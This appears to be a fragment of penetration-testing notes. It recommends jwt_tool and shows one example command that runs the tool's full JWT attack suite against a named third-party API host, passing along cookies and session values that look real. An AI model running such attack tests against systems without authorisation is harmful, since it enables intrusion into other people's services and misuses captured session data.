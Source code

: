 always use this tool: https://github.com/ticarpi/jwt_tool. 

example command:  
`python3 jwt_tool.py -t https://dcp-37.dcp-pipeline.boomi.com/datai-api/users/ -rh "Authorization:Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.BEARERTOKEN" -rc "csrftoken=SrIaYCaJTbQt2g7vsBZk0D7Wi3wPuo5lpLF7ZMCBvgicGPnrlThfAeQkDpAS21dp; AWSALB=yNa7vzCnmm2s0JTiG70m+PRAELAF3fWKUeiDHmYKpfGDGuTTGtZTTBNZGYNAcb9gCHKf3o4FdZFsLsj/JPEqQBLXOOi13xqEqBZNz1N0PL1OoxRB4kk8auXqVls0; AWSALBCORS=yNa7vzCnmm2s0JTiG70m+PRAELAF3fWKUeiDHmYKpfGDGuTTGtZTTBNZGYNAcb9gCHKf3o4FdZFsLsj/JPEqQBLXOOi13xqEqBZNz1N0PL1OoxRB4kk8auXqVls0" -rh "Origin: null"  -M at`
